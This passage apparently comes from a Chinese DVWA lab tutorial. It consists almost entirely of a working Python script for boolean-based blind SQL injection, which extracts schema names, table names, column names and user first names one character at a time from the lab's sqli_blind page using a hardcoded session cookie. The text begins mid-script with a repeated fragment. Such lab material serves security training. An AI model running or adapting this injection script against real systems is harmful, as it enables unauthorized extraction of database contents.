 ``````
                    if "User ID exists in the database." in html:
                        a+=j
                        print(a)
                        c = 0
                        break
                except:
                    continue
        c += 1
```

![1559652774534](assets/1559652774534.png)

#### 6.2.1.5 查询字段数据

```python
"""
@Product:DVWA 
@Author:Aixic
@create：2019-06-04-19:33
"""
import urllib.request

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
    ,'Cookie':'PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low'}
payload="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
urlhead="http://192.168.123.20/vulnerabilities/sqli_blind/?id=1"
end="&Submit=Submit#"
#1%27+and+mid%28database%28%29%2C1%2C1%29%3D%27d%27%23
if __name__ == '__main__':
    a=""
    c = 0
    for k in range(0,20):
        a+="\r\n"+str(k)+":"
        if c==2:
            print("结束了")
            exit()
        for i in range(1,20):
            for j in payload:
                #url="%27+and+mid%28database%28%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #url="%27+and+mid%28%28select+schema_name+from+information_schema.schemata+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #url="%27+and+mid%28%28select+table_name+from+information_schema.tables+where+table_schema%3Ddatabase%28%29+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #url="%27+and+mid%28%28select+column_name+from+information_schema.columns+where+table_name%3D%27users%27+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                url="%27+and+mid%28%28select+first_name+from+dvwa.users+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #' and mid((select schema_name from information_schema.schemata limit 0,1),1,1)='i'#
                try:
                    rp = urllib.request.Request(urlhead + url + end, headers=header)
                    respon = urllib.request.urlopen(rp)
                    html = respon.read().decode('utf-8')
                    if "User ID exists in the database." in html:
                        a+=j
                        print(a)
                        c = 0
                        break
                except:
                    continue
        c += 1
```
``````